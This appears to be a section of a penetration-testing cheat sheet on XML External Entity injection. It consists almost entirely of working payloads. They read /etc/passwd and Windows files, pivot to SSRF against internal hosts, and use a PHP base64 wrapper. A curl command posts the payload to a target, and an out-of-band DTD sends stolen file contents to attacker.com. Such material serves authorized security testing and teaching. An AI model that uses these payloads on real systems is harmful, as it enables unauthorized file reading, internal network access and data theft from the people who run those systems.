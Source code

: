 ### XML External Entity (XXE) Injection

**Basic XXE payload:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <username>&xxe;</username>
</data>
```

**Testing methodology:**

```bash
# 1. Submit XML with entity reference
curl -X POST http://target.com/api/upload \
    -H "Content-Type: application/xml" \
    -d '<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<data><username>&xxe;</username></data>'

# 2. Check response for /etc/passwd content
```

**Advanced XXE payloads:**

```xml
<!-- Read internal files -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

<!-- SSRF via XXE -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://internal-server/admin">]>

<!-- Out-of-band XXE (if no direct output) -->
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
  %send;
]>

<!-- evil.dtd on attacker server: -->
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
%all;

<!-- PHP wrapper for base64 encoding -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>

<!-- Read Windows files -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
```
